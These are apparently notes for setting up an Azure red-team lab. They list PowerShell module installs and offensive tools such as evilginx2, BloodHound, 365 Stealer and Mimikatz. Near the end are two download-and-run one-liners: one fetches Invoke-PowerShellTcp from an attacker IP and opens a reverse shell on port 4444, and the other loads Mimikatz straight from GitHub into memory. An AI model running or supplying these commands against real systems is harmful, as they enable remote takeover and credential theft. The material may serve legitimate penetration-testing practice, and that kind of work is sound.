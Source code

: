 https://github.com/mgeeky/AzureRT

```
Install-Module Az -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module AzureAD -Force -Confirm -AllowClobber -Scope AllUsers

A
echo "Next part is optional"
Install-Module Microsoft.Graph -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module MSOnline -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module AzureADPreview -Force -Confirm -AllowClobber -Scope AllUsers

A
Install-Module AADInternals -Force -Confirm -AllowClobber -Scope AllUsers
```

```
Import-Module Az
Import-Module AzureAD
```
OR get AzureRT to download all modules automagically:
```
. .\AzureRT.ps1
Import-ARTModules
```

Download:
- XAMPP
- evilginx2
- Bloodhound
- Neo4j
- ROADTools

Put in `C:\xampp\htdocs`:
- 365 Stealer
- ```Invoke-Mimikatz.ps1```
- ```Invoke-PowerShellTcp.ps1```
- ```studentx.ps1``` (uses the invoke-powershell.ps1 script to establish revshell):
```
powershell "IEX (New-Object Net.Webclient).downloadstring('http://172.16.152.213/Invoke-PowerShellTcp.ps1');Power -Reverse -IPAddress 172.16.152.213 -Port 4444"
```

* * * 
addendum

Run tools directly:
```
iex (New-Object Net.Webclient).downloadstring("https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1")
```

